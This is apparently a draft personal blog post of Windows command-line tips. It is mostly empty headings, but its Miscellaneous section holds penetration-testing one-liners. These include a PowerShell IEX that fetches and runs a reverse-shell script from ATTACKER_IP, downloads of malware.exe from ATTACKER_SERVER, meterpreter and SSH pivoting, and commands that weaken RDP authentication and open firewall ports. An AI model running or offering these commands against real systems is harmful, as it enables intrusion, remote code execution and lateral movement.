 ```yaml
---
layout: post
draft: true
title: "Windows (winnt) gems"
slug: "winnt"
date: "2022-05-11 21:02:04+11:00"
lastmod: "2022-05-11 21:02:04+11:00"
comments: false
categories:
  - winnt
tags:
  - winnt
  - windows
  - handy
---
```


- [Help and context](#help-and-context)
- [Execution policy](#execution-policy)
- [Operators](#operators)
- [Regex](#regex)
- [Flow Control](#flow-control)
- [Variables](#variables)
- [Functions](#functions)
- [Modules](#modules)
- [Module Management](#module-management)
    - [Good modules to run](#good-modules-to-run)
- [Filesystem](#filesystem)
- [Hashtables (Dictionary)](#hashtables-dictionary)
- [Windows Management Instrumentation (WMI)](#windows-management-instrumentation-wmi)
- [Async](#async)
    - [Filesystem events](#filesystem-events)
    - [Timers](#timers)
- [PowerShell drives](#powershell-drives)
- [Data (CRUD) management](#data-crud-management)
- [Damn handy](#damn-handy)

## Purpose

Modern Windows as we know it is a decendent of the original NT (new technology) code base started by the legendary [Dave Cutler](https://en.wikipedia.org/wiki/Dave_Cutler) and his team in 1988. Dave was known to have a distain for UNIX and took a different approach to building his new OS.

Windows is jam packed with weird and wonderful programs, shortcuts, boot modes, hacks; I wanted to start documenting the ones I find useful somewhere.


## File system locations

TODO



## Utility commands




## System information

- `sc query state=all` running daemons
- `tasklist /svc` show running processes and daemons
- `tasklist /m` show processes and DLLs
- `tasklist /S <ip> /v` remote process listing


## Networking


## Domain


## Remote


## Miscellaneous

### ACLs

```
icacls text.txt /grant Everyone:F
```

### Base64 decode

```
certutil -decode foo.b64 foo.exe
```

### Download file

```
IEX (New-Object System.Net.WebClient).DownloadString("http://ATTACKER_IP/rev.ps1")(New-Object System.Net.WebClient).DownloadFile("http://ATTACKER_SERVER/malware.exe", "C:\Windows\Temp\malware.exe")  Invoke-WebRequest "http://ATTACKER_SERVER/malware.exe" -OutFile "C:\Windows\Temp\malware.exe"
```

### Firewall re-ruling

```
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow
```

### Port forwarding

```
 # using plink 
 plink.exe -l user -pw pass123 192.168.1.56 -R 8080:127.0.0.1:8080
 
 # using meterpreterportfwd
 add -l attacker-port -p victim-port -r victim-ip
 portfwd add -l 3306 -p 3306 -r 192.168.1.56
 
 # Dynamic Pivoting using ssh with proxy chain
 ssh -D 9050 root@target
 
 # using ssh
 ssh -L localhost:8080:target:8080 root@targetip
```

### RDP enabling

```
# CMD 
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
# Powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server'-name "fDenyTSConnections" -Value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

# Optional
net localgroup "Remote Desktop Users" morph3 /add

# Re-ruling firewall
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall add rule name="allow RemoteDesktop" dir=in protocol=TCP localport=3389 action=allow
```